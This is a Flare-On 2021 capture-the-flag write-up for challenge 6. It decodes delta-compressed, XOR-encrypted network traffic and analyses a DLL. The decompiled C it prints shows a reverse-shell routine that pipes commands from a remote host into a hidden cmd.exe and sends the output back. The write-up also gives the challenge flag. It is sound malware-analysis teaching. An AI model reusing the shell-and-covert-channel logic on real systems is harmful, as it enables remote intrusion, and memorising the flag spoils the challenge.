

# 6 - PetTheKitty

**Time spent:** 3-4 hours

**Tools used:** Wireshark, Ghidra, x64dbg, Resource Hacker, Python, C#


After the disaster that is challenge 5, we start to finally get into the more fun reverse engineering challenges of Flare-On 2021. In challenge 6, we are given a `pcapng` file, together with a note stating we should look for artifacts introduced by malware:

```
Hello,

Recently we experienced an attack against our super secure MEOW-5000 network. Forensic
analysis discovered evidence of the files PurrMachine.exe and PetTheKitty.jpg; however, 
these files were ultimately unrecoverable. We suspect PurrMachine.exe to be a downloader 
and do not know what role PetTheKitty.jpg plays (likely a second-stage payload). Our
incident responders were able to recover malicious traffic from the infected machine.
Please analyze the PCAP file and extract additional artifacts.

Looking forward to your analysis, ~Meow
```


## Orientation

If we open the `pcapng` file in Wireshark, we can see that two TCP streams to the domain `xn--zn8hscq4eeafedhjjklflare-on.com`. There are two TCP streams recorded. The first one only consists of two packets sent by the client, and two large responses from the server. The second stream looks much more like a conversation, with lots of smaller requests and responses between both hosts.




Across all messages, we can see that they all start with a 12 byte header, followed by data. The first 4 bytes are `ME0W`, followed by 8 bytes that seem to be lengths of the packets. Furthermore, judging from the first couple of bytes after the `ME0W` header the first packet that is send by the server is clearly a PNG image:


The second message in the first stream seems to be complete garbage data at first glance, but if you look closely, you will see that it starts with the four bytes `PA30`. Furthermore, it also seems that all the messages in the second stream follow the same pattern with the same `PA30` header. If you look into a list of file signatures, such as the one from [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures), you will find that the `PA30` signature is used in a file format more commonly known as a **Binary Delta Compressed file**, and is used a lot in updating services such as Windows Update. Let's dive into what that is:

## Binary Delta Compression

The idea behind delta compression is quite simple. When you release an update for software, often the differences between the binaries is fairly small. This makes sense, because typically an update only consists of a couple of changes or patches applied to the original source code. It is rarely the case that the entire source code of the application is rewritten. Since most of the binary is not changed, and therefore already present on the machine that wants to download the update, pulling the next version as a complete new copy of the file would therefore be quite wasteful. Binary delta compression solves this by only sending the modifications with respect to the previous version, rather than the full file contents. Microsoft uses this mechanism to significantly lower the amount of outgoing network traffic that is required to ship updates to Windows.

Naturally, Microsoft provides an implementation for this delta compression algorithm. This implementation can be found in a DLL called `msdelta.dll`, and it is actually fairly well documented as well on [msdn](https://docs.microsoft.com/en-us/previous-versions/bb417345(v=msdn.10)?redirectedfrom=MSDN#msdelta). The function that we are going to use is called `ApplyDelta`; it takes two input files and produces a single output file that is the result of applying the difference between the two input files. Using P/Invoke, we can then build ourselves a very simple program that we can use to apply patches between two arbitrary files passed on as command line arguments:

```csharp
using System;
using System.IO;
using System.ComponentModel;
using System.Runtime.InteropServices;

internal unsafe static class Program
{
    [DllImport("msdelta.dll", SetLastError=true)]
    private static extern bool ApplyDelta(ulong flags, string sourceName, string deltaName, string targetName);

    public static void Main(string[] args)
    {
        if (!ApplyDelta(0, args[0], args[1], Path.ChangeExtension(args[1], ".patched.bin")))
            throw new Win32Exception();
        Console.WriteLine("Done");  
    }
}
```

Running this program with [the PNG message](stream0/messages/msg0.png) as source data, and [the second message](stream0/messages/msg1.bin) as delta patch data, gives us the following [output](stream0/decoded/malware.dll):

```
$ DeltaPatch.exe msg0.png msg1.bin
Done
```


Gotcha! We got a Windows Executable file to analyze! However, trying the same idea on the remainder of the messagse in the second TCP stream seems to yield only garbage data. Maybe the second stream requires some additional thought. Let's jump into the binary first.

## Analyzing the malware

Opening the binary in Ghidra reveals it is actually not a `*.exe` but a `*.dll` file with an export called `Le_Meow`. Looking into this function we can see it starts off with a common set up for winsock sockets, followed by creating a thread that performs a window message loop. After some event was fired within this message loop, it calls another function `FUN_100015d4`, and finally closes off again:

```c
void Le_Meow(void)
{
    /* ... */
    pvVar1 = GetProcessHeap();
    lpMem = HeapAlloc(pvVar1,DVar2,dwBytes);
    *lpMem = "xn--zn8hrcq4eeadihijjk.flare-on.com";
    *(lpMem + 1) = 0x539;
    /* ... */
    result = WSAStartup(0x202,&local_1a0);
    /* ... */
    if (result == 0) {
        result = gethostbyname(*lpMem);
        /* ... */
        if (result != 0) {
            socket = WSASocketA(AF_INET,SOCK_STREAM,IPPROTO_TCP,0,0,0);
            /* ... */
            if (socket != -1) {
                /* ... */
                result = connect(socket,&stack0xfffffe40,0x10);
                /* ... */
                if (result != -1) {
                    hEvent_10004018 = CreateEventA(NULL,1,0,"MEEEEEEEE0000000000W");
                    /* ... */
                    if (hEvent_10004018 != NULL) {
                        pvVar1 = CreateThread(NULL,0,do_message_loop,NULL,0,&stack0xfffffe40);
                        while (uVar3 = unaff_ESI, HANDLE_IMAGE == NULL) {
                            Sleep(500);
                        }
                        FUN_100015d4();
                        SetEvent(hEvent_10004018);
                        if (hWnd_100043c0 != NULL) {
                            SendMessageA(hWnd_100043c0,WM_CLOSE,0,0);
                        }
                        /* ... */
                    }
                }
            }
        }        
        /* ... */
    }
    /* ... */
}
```

`FUN_100015d4` is quite a large function, but actually not that difficult to understand once you filter most of the boilerplate code. Essentially it starts up a hidden instance of `cmd.exe` and feeds any message that is sent by the server to the standard input of this process (making `cmd.exe` execute it as if it were a batch command), and sending the output back to the server. This basically means that the malware provided the server with a remote shell, allowing the attacker to run any command that it likes:

```c
void FUN_100015d4(void)
{
    /* ... */ 
    memset(&startupInfo.lpReserved,0,0x40);
    startupInfo.cb = 0x44;

    // Create two named pipes.
    pipe_attr.nLength = 0xc;
    processInfo = ZEXT816(0);
    pipe_attr.lpSecurityDescriptor = NULL;
    pipe_attr.bInheritHandle = 1;
    BVar3 = CreatePipe(&read_pipe1,&write_pipe1,&pipe_attr,0);
    if ((BVar3 != 0) && (BVar3 = CreatePipe(&read_pipe2,&write_pipe2,&pipe_attr,0), BVar3 != 0)) {

        // Start CMD.exe using a hidden window, and use the previously created pipes as standard input/output streams.
        GetStartupInfoA(&startupInfo);
        startupInfo.dwFlags = 0x101;
        startupInfo.wShowWindow = 0;
        startupInfo.hStdOutput = write_pipe2;
        startupInfo.hStdError = write_pipe2;
        startupInfo.hStdInput = read_pipe1;
        BVar3 = CreateProcessA(NULL,"C:\\wiNdOwS\\sYstEm32\\cMd.ExE",NULL,NULL,1,0,NULL,NULL,&startupInfo,&processInfo);

        if (BVar3 != 0) {
LAB_10001796:
            send_length = 0;
            Sleep(500);

            // Are we still alive?
            BVar3 = GetExitCodeProcess(processInfo.hProcess,&exitCode);
            if ((BVar3 != 0) && (exitCode != STILL_ACTIVE)) goto LAB_1000195e;

            // Read any of the output of CMD.exe, and send it to the server.
            memset(send_buffer,0,0xffff);
            PeekNamedPipe(read_pipe2,NULL,0,NULL,&DStack65552,NULL);
            if (DStack65552 != 0) {
                do {
                    ReadFile(read_pipe2,send_buffer + send_length,DStack65552,&DStack65560,NULL);
                    send_length += DStack65560;
                    Sleep(100);
                    PeekNamedPipe(read_pipe2,NULL,0,NULL,&DStack65552,NULL);
                } while (DStack65552 != 0);
                iVar4 = send_message(socket,send_buffer,send_length);
                if (iVar4 == 1) goto LAB_1000195e;
            }

            // Receive the next message from the server. 
            iVar4 = receive_message(socket,&receive_buffer,&receive_length);
            lpMem = receive_buffer;
            if (iVar4 == 1) goto LAB_1000195e;

            /* ... */

            // Write the received message into the stdin of cmd.exe
            if (send_length != 0) {
                /* ... */
                WriteFile(write_pipe1,receive_buffer,pbVar5 - (receive_buffer + 1),&DStack65564,NULL);
                /* ... */
                goto LAB_10001796;
            }
            
            /* ... */
            WriteFile(write_pipe1,receive_buffer,pbVar5 - (receive_buffer + 1),&DStack65564,NULL);
            /* ... */
        }
    }
    /* ... */
}
```

As expected from the `PA30` signatures in the PCAP file, the `send_message` and `receive_message` functions use `msdelta.dll` functions as well. However, there is a bit of a twist. First of all, the message to be sent is first XOR encrypted with the key `meoow`. Secondly, we are not using the original PNG anymore as source data, but another image. This explains why using our program before on the remainder of the messages didn't yield any readable results:

> **Fun fact:** There is actually sort of a bug in the delta compression code below. The malware calculates the total size of the source data using the dimensions of the image (width * height). However this actually results in only a third of the actual number of pixel data to be used as source data in the compression algorithm, because each pixel is 3 bytes worth of RGB data.

```c
void __fastcall send_message(undefined4 socket,void *buffer,uint length)
{
    /* ... */

    delta_output.lpStart = NULL;
    delta_output.uSize = 0;
    lpMem = NULL;

    // XOR data with key="meoow":
    if (length != 0) {
        do {
            *(buffer + uVar4) = *(buffer + uVar4) ^ "meoow"[uVar4 % 5];
            uVar4 += 1;
        } while (uVar4 < length);
    }

    // Prepare target data for delta patch.
    _Size = BITMAP_IMAGE.bmWidth * BITMAP_IMAGE.bmHeight;
    DVar6 = 8;
    dwBytes_00 = _Size;
    pvVar1 = GetProcessHeap();
    _Dst = HeapAlloc(pvVar1,DVar6,dwBytes_00);
    memcpy(_Dst,BITMAP_IMAGE.bmBits,_Size);
    memcpy(_Dst,buffer,length);

    // Create delta patch.
    iVar2 = wrapper_CreateDeltaB(BITMAP_IMAGE.bmBits,_Size,_Dst,_Size,&delta_output);
    
    /* ... */

    if (iVar2 != 1) {

        /* ... Construct ME0W header ... */

        // Send reply.
        while ((iVar2 != 0 && (iVar3 = send(socket,&lpMem->magic + local_1c,iVar2,0), uVar5 = extraout_DL_02, iVar3 != -1))) {
            local_1c += iVar3;
            iVar2 -= iVar3;
        }
    }
    if (delta_output.lpStart != NULL) {
        DeltaFree(delta_output.lpStart);
        /* ... */
    }
    /* ... */
}
```

## Decrypting all the traffic

Lucky for us, the source data that the remainder of the patches are based on is not very difficult to find. You can either find it dynamically by setting up a localhost and letting the program run until this point and reading out the parameters, or fully statically by looking a bit in the message loop that it set up earlier on a separate thread. If we look into this message loop, we can quickly figure out that it loads a bitmap resource from the PE. If we load the malware in a program such as Resource Hacker, we get the following picture:


If we strip the header from the RGB data in [this BMP file](extracted/kitty.bmp) and save it to a [new file](extracted/kitty.bin), we can then slightly change our program to decode all messages;

```csharp
using System;
using System.IO;
using System.ComponentModel;
using System.Runtime.InteropServices;

internal unsafe static class Program
{
    [DllImport("msdelta.dll", SetLastError=true)]
    private static extern bool ApplyDelta(ulong flags, string sourceName, string deltaName, string targetName);

    public static void Main(string[] args)
    {
        var template = File.ReadAllBytes("kitty.bin");
        foreach (var file in Directory.GetFiles("messages"))
        {
            Console.WriteLine(file);
            if (!ApplyDelta(0, "kitty.bin", file, "decoded\\" + Path.GetFileName(file)))
                throw new Win32Exception();
        }
    }
}
```

Then, using a [simple python script](scripts/decrypt.py) to XOR all the contents with `meoow` as the key. This will give us [a list of decrypted messages](https://github.com/Washi1337/ctf-writeups/tree/master/writeups/flare-on/2021/6/stream1/decrypted/).

## GREP To Win!

It so turns out that is all we need to do for this challenge. If we use `grep` to search in all the decrypted files for the string `flare-on`...


... we get the flag:

```
$ grep -r "flare-on.com" .
./msg50.bin:1m_H3rE_Liv3_1m_n0t_a_C4t@flare-on.com
```

